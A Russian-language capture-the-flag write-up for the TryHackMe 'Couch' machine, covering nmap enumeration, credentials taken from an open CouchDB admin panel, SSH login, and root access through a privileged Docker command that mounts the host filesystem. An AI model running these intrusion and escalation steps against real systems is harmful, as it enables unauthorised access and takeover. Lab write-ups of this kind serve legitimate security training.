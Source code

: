 # Couch

:white_check_mark:  [**Couchdb browsing**](#Couchdb_browsing)

___

## Enumeration
Сканируем ip командами:
```
nmap -Pn -p 1-10000 couch.thm (Для определения портов)

nmap -A -p 22,5984 couch.thm  (Для получения полной информации о портах)
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                           
```

<a name="Couchdb_browsing"></a>

Перейдем к базе данных CouchDB: http://couch.thm:5984. Нас встречает следующая строка:
```
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

Для того чтобы получить доступ к инстументу администрирования, перейдем по следующему пути:
```
http://couch.thm:5984/_utils
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Couch/1.png)

Мы можем заметить интересную базу данных "secret", перейдем в нее.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Couch/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Couch/3.png)

Мы находим пользовательские данные, попробуем подключиться по ssh.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Couch/4.png)

Прочитав .bash_history, можно обнаружить следующую строку:
```
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

На машине запускали docker. Попробуем ввести эту команду. Мы попадаем в docker. Для поиска финального флага воспользуемся командой find.
```
find / -type f -name root.txt 2>/dev/null
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Couch/5.png)

Переходим в директорию и получаем финальный флаг.
